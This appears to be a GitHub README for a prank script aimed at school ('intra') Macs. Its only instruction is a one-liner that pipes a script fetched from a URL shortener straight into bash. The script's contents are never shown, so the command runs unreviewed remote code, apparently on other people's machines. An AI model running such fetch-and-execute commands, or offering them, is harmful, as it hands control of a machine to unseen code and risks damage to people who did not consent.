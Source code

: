 # It-s-just-a-prank-bro
Silly script for intra macs to have a good laugh.


curl -L http://gg.gg/Rambeau | bash